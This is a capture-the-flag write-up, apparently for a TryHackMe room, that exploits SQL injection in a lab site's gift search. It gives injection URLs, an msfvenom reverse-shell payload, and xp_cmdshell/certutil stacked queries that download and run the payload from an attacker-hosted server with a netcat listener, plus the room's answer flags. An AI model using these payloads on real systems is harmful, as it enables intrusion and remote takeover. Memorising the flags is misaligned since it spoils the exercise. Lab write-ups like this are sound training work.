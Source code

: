 # SQL injection

I went through a challenge description to learn about SQL injection. Went through few videos online to get a better understanding. So let's try restoring the defaced website.
Going to the gift search feature of the website we can identify some interesting URL query parameters by looking at the URL in our browser. 
- **`http://MACHINE_IP/giftresults.php?age=child&interests=toys&budget=30`**

The underlying PHP code is taking in the three parameters we specified for age, interests, and budget (as separated by the & character) and querying the database to retrieve the filtered results and output them to the page
We can try give submiting **`'`** in the SQL query and try generating a syntax error. We can do so as
- **`http://MACHINE_IP/giftresults.php?age='&interests=toys&budget=30`**

This generates an error message as shown below.

![Screenshot (114)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/071a4e45-a416-4310-a568-70474558c674)

We can further transform the query as **`http://MACHINE_IP/giftresults.php?age=' OR 1=1 --`** to reveal all the gifts in the data. We also seem to get a flag at the end of this page.

![Screenshot (115)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/a41cdd4a-04d9-41dd-93cb-da9361ed68f4)

We'll try Remote Code Execution and create a payload in order for us to upload this payload to the server and then we can listen using netcat.
We'll use MSFvenom for payload generation as 
- **`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.69.106 LPORT=4444 -f exe -o reverse.exe`**
Now we'll setup a server to host this payload as
- **`python3 -m http.server 8000`**

![image](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/15b615fd-eb3e-4927-aa06-f7ff61a7af82)

- Now we'll use our stacked query to call **xp_cmdshell** and execute the **certutil.exe** command on the target to download our payload as
  - **`http://10.10.67.10/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.69.106:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --`**
- We'll go to the URL to GET the response.
- Then we'll setup a listen using netcat as
  - **`nc -lnvp 4444`**
- Now, we can run one final stacked query to execute the reverse.exe file we previously saved in the C:\Windows\Temp directory by the URL
  - **`http://10.10.69.106/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`**

Now we get access to that machine. We'll try to restore the website by going to the **Users** directory and list  out its contents using **dir** . We can see a user named **Administrator**.

![Screenshot (117)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/dfe67845-c449-4b7c-89b7-c573cfdbf96c)

Going to this user directory and listing out its contents, we then go to the **Desktop** directory where upon listing its contents, we get to see a **restore_website.bat** file which when executed restores the website.

![Screenshot (118)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/67bbeecd-3e26-4a48-9327-cb5053b2a0fd)

Now we get a flag on going to the home page of the website.

![Screenshot (119)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/032bd5f3-7e3b-4615-97a6-f2e3ced82e61)

## Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?

This can be answered by looking at the URL after going to the Gift Search section in the website.

**Ans- `/giftsearch.php`**

## Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?

Answer can be found in the error message generated.

**Ans- `ODBC Driver 17 for SQL Server`**

## Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?

This we had already found

**Ans- `THM{a4ffc901c27fb89efe3c31642ece4447}`**


## What flag is in the note file Gr33dstr left behind on the system?

Just above the **restore_website.bat** file, there is a **Note.txt** text file. We can read out the file using **`type Note.txt`** to get the flag.

**Ans- `THM{b06674fedd8dfc28ca75176d3d51409e}`**

## What is the flag you receive on the homepage after restoring the website?

**Ans- `THM{4cbc043631e322450bc55b42c}`**
